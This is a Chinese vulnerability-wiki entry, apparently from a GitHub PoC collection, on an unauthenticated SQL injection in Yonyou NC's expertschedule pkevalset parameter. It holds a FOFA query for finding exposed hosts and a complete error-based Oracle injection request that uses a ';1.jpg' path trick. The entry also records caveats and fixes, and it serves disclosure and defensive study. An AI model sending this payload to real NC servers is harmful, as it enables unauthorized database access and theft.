

# 用友NC expertschedule pkevalset SQL 注入

## 条目说明

- 对象与具体问题：用友NC；expertschedule pkevalset SQLi
- 版本、配置及部署条件：Oracle XMLType；分号路径解析前提未列
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- product语法标FOFA需校核；版本仅产品名，缺版本范围/修复
- 分号后缀是否鉴权绕过应独立说明；成功证据仅截图

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

用友NC-pkevalset-sql注入漏洞，未授权的攻击者可执行恶意sql语句导致服务器数据库信息泄露甚至被攻陷。

## 影响版本

用友-UFIDA-NC

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：product="用友-UFIDA-NC"

poc:

```http
GET /ebvp/expeval/expertschedule;1.jpg?pkevalset=1%27)%20AND%206913=(SELECT%20UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(120)||CHR(122)||CHR(120)||CHR(113)||(SELECT%20(CASE%20WHEN%20(6913=6913)%20THEN%201%20ELSE%200%20END)%20FROM%20DUAL)||CHR(113)||CHR(120)||CHR(122)||CHR(120)||CHR(113)||CHR(62)))%20FROM%20DUAL)%20AND%20(%27REtI%27=%27REtI HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 

```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
